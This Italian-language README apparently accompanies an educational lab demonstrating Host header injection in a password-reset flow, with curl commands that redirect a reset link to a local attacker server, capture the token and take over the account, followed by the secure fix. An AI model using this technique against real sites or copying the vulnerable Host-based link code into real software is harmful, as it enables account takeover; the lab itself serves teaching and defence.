 # Host Header Injection: Demo di un Account Takeover Completo

> **Attenzione:**
>
> [DISCLAIMER] Questo progetto ha esclusivamente scopo didattico e mira a dimostrare una vulnerabilità crittografica. Non è destinato ad alcun uso malevolo. L'autore non è responsabile per eventuali usi impropri delle informazioni o del codice forniti.

[🇬🇧](/host-header-injection/README.md)

Benvenuto/a\! Questo demo interattivo ti guiderà attraverso un attacco completo, end-to-end, di tipo **Host Header Injection**. Giocherai sia il ruolo dell'utente che quello dell'attaccante per capire come una singola vulnerabilità, apparentemente piccola, possa portare a un takeover totale dell'account.

Vedremo come un attaccante può ingannare un server per fargli inviare un link di reset password malevolo, rubare il token segreto e infine usare quel token per cambiare la password della vittima e bloccarla fuori dal proprio account.

Iniziamo.

## 🚀 Lo Scenario

Il nostro demo è composto da tre parti:

1.  **L'Applicazione della Vittima (`vulnerable-server.js`)**: Un server Node.js con una funzionalità di reset password. La sua falla critica è che si fida dell'header `Host` delle richieste in arrivo per generare i link di reset. Vedremo i suoi log in **blu** 🔵.
2.  **Il Server dell'Attaccante (`attacker-server.js`)**: Un server Node.js malevolo controllato dall'attaccante. Il suo unico compito è ascoltare le richieste in arrivo e registrare qualsiasi token segreto riesca a catturare. Vedremo i suoi log in **rosso** 🔴.
3.  **L'Interfaccia Frontend (`index.html`)**: Una semplice pagina web dove un utente si recherebbe per richiedere il reset della password. Questo è il punto di ingresso per l'intero processo.

## ✅ Prerequisiti

Prima di iniziare, assicurati di avere installato quanto segue:

  * Node.js (v18 o superiore)
  * `pnpm` (puoi sostituirlo con `npm` o `yarn` nei comandi)

## 🛠️ Configurazione

Per prima cosa, prepariamo il progetto e installiamo tutte le dipendenze.

1.  **Installa le Dipendenze del Backend**:
    Naviga nella directory `backend` e installa i pacchetti richiesti.

    ```bash
    cd backend
    pnpm install
    ```

2.  **Installa le Dipendenze del Frontend**:
    Naviga nella directory `frontend` e installa i suoi pacchetti.

    ```bash
    cd ../frontend
    pnpm install
    ```

## 🎬 Esecuzione del Demo: Una Scena in 4 Atti

Ora che tutto è installato, eseguiamo la simulazione. Procederemo passo dopo passo.

### Atto I: L'Utente Legittimo

Per prima cosa, vediamo come l'applicazione *dovrebbe* funzionare.

1.  **Avvia i Server**:
    Vai nella directory `backend`. Useremo il comodo script `start` per lanciare contemporaneamente sia il server vulnerabile che quello dell'attaccante.

    ```bash
    # Nella directory /backend
    pnpm start
    ```

    Dovresti vedere sia i log in **blu** 🔵 del `[VULNERABLE SERVER]` che quelli in **rosso** 🔴 del `[ATTACKER'S SERVER]`, a indicare che sono in esecuzione.

2.  **Avvia il Frontend**:
    In una **nuova finestra del terminale**, naviga nella directory `frontend` e avvia il server di sviluppo di Vite.

    ```bash
    # Nella directory /frontend
    pnpm dev
    ```

    Vite ti fornirà un URL locale (solitamente `http://localhost:5173`). Apri questo URL nel tuo browser.

3.  **Richiedi un Reset della Password**:
    Nel browser, vedrai l'interfaccia utente. L'email `user@victim.com` è già compilata. Clicca il pulsante **"Initiate Password Reset"**. L'interfaccia confermerà che la richiesta è stata inviata.

4.  **Controlla i Log**:
    Guarda il terminale del backend. Vedrai un log ben formattato in **blu** 🔵 che simula l'invio dell'email. Nota il link al suo interno: punta correttamente a `http://localhost:3000/...`. Questo è il comportamento atteso e legittimo.

### Atto II: La Sonda dell'Attaccante (L'Iniezione)

Ora, indossiamo il nostro cappello da "black hat". Un attaccante non userà l'interfaccia utente. Userà uno strumento come `curl` per creare una richiesta malevola.

1.  **Crea la Richiesta Malevola**:
    Apri una **terza finestra del terminale**. Invieremo una richiesta `POST` al server vulnerabile, ma inietteremo il nostro header `Host` che punta al server del nostro attaccante (`localhost:9090`).

    Copia ed esegui il seguente comando:

    ```bash
    curl -X POST http://localhost:3000/request-password-reset \
    -H "Content-Type: application/json" \
    -H "Host: localhost:9090" \
    -d '{"email":"user@victim.com"}'
    ```

2.  **Assisti all'Inganno**:
    Torna immediatamente al terminale del backend. Vedrai una **nuova email simulata** registrata nei log. Ma guarda attentamente\! Il server, fidandosi del nostro finto header `Host`, ha creato un link di reset password che ora punta al server dell'attaccante: `http://localhost:9090/...`.

    Il server è stato ingannato con successo.

### Atto III: La Trappola Scatta (Cattura del Token)

Il link malevolo è stato generato. Nel mondo reale, la vittima lo riceverebbe in un'email. Simuliamo la vittima che clicca su di esso.

1.  **Clicca il Link Malevolo**:
    Dal terminale del backend, copia l'URL malevolo (`http://localhost:9090/reset-password?token=...`) dal log della seconda email.

2.  **Incollalo nella barra degli indirizzi del tuo browser e premi Invio.**

3.  **Controlla il Log dell'Attaccante**:
    Torna al terminale del backend. Nel momento in cui premi Invio, il server dell'attaccante prende vita\! Vedrai un log rosso acceso 🔴 che conferma la **CATTURA DEL TOKEN**. Ti fornirà anche il prossimo comando necessario per completare l'attacco.

### Atto IV: Il Colpo di Grazia (Account Takeover)

L'attaccante ora possiede la chiave del regno: il token segreto. Il passo finale è usarlo.

1.  **Usa il Token Rubato**:
    Il log dell'attaccante ha già stampato l'esatto comando `curl` necessario. Include il token rubato e una nuova password (`hackedPassword123`).

    Copia quel comando `curl` finale dal log **rosso** 🔴 ed eseguilo nel tuo terminale.

    ```bash
    # Questo comando è stampato nel log del tuo attaccante
    curl -X POST http://localhost:3000/reset-password -H "Content-Type: application/json" -d '{"token":"[IL_TOKEN_CATTURATO]","newPassword":"hackedPassword123"}'
    ```

2.  **Conferma il Takeover**:
    Guarda il terminale del backend per l'ultima volta. Vedrai un log **blu** 🔵 con un agghiacciante avvertimento in **giallo** 🟡:

    `ACCOUNT TAKEOVER! Password for user with token "..." has been changed to "hackedPassword123"!`

L'attacco è completo. La password dell'utente è stata cambiata a sua insaputa e l'attaccante ha il pieno controllo dell'account.

## 🛡️ La Soluzione

Come possiamo prevenire tutto questo? La soluzione è semplice ma cruciale:

**Non fidarsi mai dell'input controllabile dall'utente per operazioni sensibili alla sicurezza.** L'header `Host` è un input dell'utente.

Il server deve conoscere il proprio dominio. Invece di usare l'header, bisogna usare un valore di configurazione fisso.

**Il Codice Vulnerabile (`vulnerable-server.js`):**

```javascript
// L'applicazione si fida ciecamente dell'header 'Host' controllato dall'utente
const host = req.headers.host;
const resetLink = `http://${host}/reset-password?token=${token}`;
```

**Il Codice Sicuro:**

```javascript
// L'applicazione usa un valore di configurazione fisso e affidabile
const APP_BASE_URL = 'http://localhost:3000'; // In produzione: 'https://tuo-dominio-reale.com'
const resetLink = `${APP_BASE_URL}/reset-password?token=${token}`;
```

Applicando questa modifica, non importa cosa un attaccante inserisca nell'header `Host`, il link generato sarà sempre corretto e sicuro.